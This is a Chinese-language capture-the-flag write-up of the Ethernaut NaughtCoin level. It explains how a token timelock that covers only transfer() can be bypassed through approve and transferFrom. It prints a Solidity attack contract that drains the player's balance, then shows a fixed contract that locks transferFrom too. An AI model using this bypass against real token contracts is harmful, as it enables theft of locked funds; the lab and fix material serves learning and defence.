



不过，transferFrom在发送这些代币之前，所有者必须**授权（approve）**"发送者"管理该数量的代币。

那我们的思路就是，用新账户搞一个新合约，让原主给我们新合约授权，然后transferFrom转走，就可以了

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin {
    function approve(address spender, uint256 amount) external returns (bool);
    function transferFrom(address from, address to, uint256 amount) external returns (bool);
    function balanceOf(address account) external view returns (uint256);
}

contract FullNaughtCoinAttack {
    INaughtCoin public naughtcoin;
    address public player;

    constructor(address _naughtcoin, address _player) {
        naughtcoin = INaughtCoin(_naughtcoin);
        player = _player;
    }

    function attack() external {
        uint256 balance = naughtcoin.balanceOf(player);
        naughtcoin.transferFrom(player, msg.sender, balance);
    }
}
```

让原主授权，Remix贴心地给出了这个接口



授权后调用我们的攻击合约



原本账户已无钱，全到了新账户



#### 修复方式：

##### 锁定 transferFrom 同样的逻辑

**重写** **transferFrom()** 函数，并应用 lockTokens 修饰符，和 transfer() 一样。

##### 修复后的合约代码（关键部分）

```
function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
    return super.transfer(_to, _value);
}

function transferFrom(address _from, address _to, uint256 _value) public override lockTokensFrom(_from) returns (bool) {
    return super.transferFrom(_from, _to, _value);
}

modifier lockTokens() {
    if (msg.sender == player) {
        require(block.timestamp > timeLock, "Tokens are locked");
    }
    _;
}

modifier lockTokensFrom(address _from) {
    if (_from == player) {
        require(block.timestamp > timeLock, "Tokens are locked");
    }
    _;
}
```
